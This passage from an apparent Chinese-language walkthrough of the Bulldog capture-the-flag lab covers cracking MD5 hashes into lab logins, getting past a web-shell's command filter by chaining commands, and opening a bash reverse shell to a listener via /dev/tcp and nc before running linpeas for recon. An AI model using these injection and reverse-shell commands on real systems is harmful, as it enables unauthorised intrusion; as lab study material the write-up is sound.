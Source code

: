 --------------------------------------------
--------------------------------------------
4、MD5解密

https://www.somd5.com/
https://crackstation.net/

ddf45997a7e18a25ad5f5cf222da64814dd060d5解密：bulldog
d8b8dd5e7f000b8dea26ef8428caf38c04466b3e解密：bulldoglover

获得用户名密码：
nick  bulldog
sarah  bulldoglover

--------------------------------------------
--------------------------------------------
5、webshell-绕过waf

在dev页面发现存在web-shell模块：点击进入
http://192.168.4.248/dev/shell/
提示：请向服务器进行身份验证以使用 Web-Shell


nick  bulldog  登录进来提示：
You don't have permission to edit anything.  您无权编辑任何内容。


但是在访问：http://192.168.4.248/dev/shell/
发现可以使用了，给了我们几个命令：
ifconfig
ls
echo
pwd
cat
rm

cmd1 | cmd2的方式，cmd2测试不会被waf判断可以绕过！
&&    ---pwd && whoami
$()   ---echo$()    echo$(whoami)
echo uname -a|sh

echo 'bash -i >& /dev/tcp/192.168.111.101/443 0>&1' | bash

nc -vlp 1234
ls &&echo "bash -i >& /dev/tcp/192.168.4.251/1234 0>&1" | bash

成功拿到django用户shell！


或者使用：
echo $(添加命令)   例如wget上传  chmod赋权  ./执行

--------------------------------------------
--------------------------------------------
6、内部信息收集
上传linpeas开始跑：

1）Linux version 4.4.0-87
2）uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
3）Sudo version 1.8.16
4）/home/django/bulldog/manage.py
5）发现用户bulldogadmin
